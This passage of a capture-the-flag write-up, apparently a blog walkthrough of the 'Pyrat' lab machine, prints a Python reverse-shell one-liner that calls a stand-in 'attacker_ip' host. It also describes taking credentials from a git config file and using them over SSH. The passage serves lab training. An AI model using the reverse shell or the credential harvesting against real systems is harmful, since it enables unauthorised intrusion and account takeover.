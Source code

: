 ## Initial Access

Using a simple reverse shell payload for Python we get our initial shell access.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/4.png)

Now can explore further the machine and find our way to the root user calmly, that being said, time for some enumeration. I often sudo binaries, permissions and processes, and this time, I've found a really interesting process running in background:

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/5.png)

The `pyrat.py` is being executed as root, funny eh? Moreover, we have an interesting directory inside `/opt` folder:

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/6.png)

The `.git` folder indicates us this folder is most likely a repository, notice the owner user is `think`. Since I don't a have a fully functional terminal I'll check the folder manually for credentials, as developers often save the credentials to avoid inserting them very time a commit is created.

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/7.png)



## SSH Connection

The `config` file has some credentials for the user `think` and also an email address related to the project. The credentials can be used to access the user through SSH and get our first flag inside the home directory:

![](/home/rebellion/blog/jlowborn.github.io/assets/img/post/thm_pyrat/8.png)

We can also check the repository for previous commits and check what were the developers working on:

```sh
think@Pyrat:/opt/dev$ git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
think@Pyrat:/opt/dev$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
```
